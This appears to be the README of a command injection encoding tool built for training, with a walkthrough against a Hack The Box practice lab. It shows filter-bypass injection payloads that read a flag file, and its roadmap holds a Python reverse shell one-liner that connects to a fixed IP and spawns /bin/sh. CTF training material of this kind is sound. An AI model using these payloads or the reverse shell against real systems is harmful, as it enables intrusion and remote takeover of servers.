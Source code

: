 # Request Encoder

Request Encoder (cire) is a tool that can be used to encode requests mostly for pseudo-manual command injection exploitation. This tool was developed for training purposes.

#### Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in each parameter of the request, such as `from` below:

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```

#### Roadmap

- [ ] Add [chillhack](https://tryhackme.com/room/chillhack) to tests:

```ps
$ onectf request -u 'URL' -v -X POST -p param -v -i 'export RHOST="10.9.168.80";export RPORT=4444;python3 -c <q>import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")<q>'
$ onectf request -u 'URL' -v -X POST -p param -i '|| cat file <er>'
$ onectf request -u 'URL' -v -X POST -d 'param1=a&param2=b' -p 'param3' -i '5+5' --raw
$ onectf request -u 'URL' -v -X POST -p 'param' -I file --raw --tamper data_base64
$ onectf request -u 'URL' -v -X POST -p 'param' --tamper php_octal -i 'phpinfo()'
$ onectf request -u 'URL' -v -X POST --json -I request.json
$ onectf request -u 'URL/FUZZ' -X GET --fuzz -H 'Cookie: session=XXX; HttpOnly; Path=/' -w uids -f json
$ onectf request -u 'URL' -v -X POST -p uid -w uids
$ onectf request -u 'URL' -v -X POST -p 'uid' -w uids -f html
$ onectf request -u 'URL' -v -X GET -p 'param' -w uids -f html --tamper base64
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
$ onectf request -u 'URL' -v -X PUT --json -I request.json
```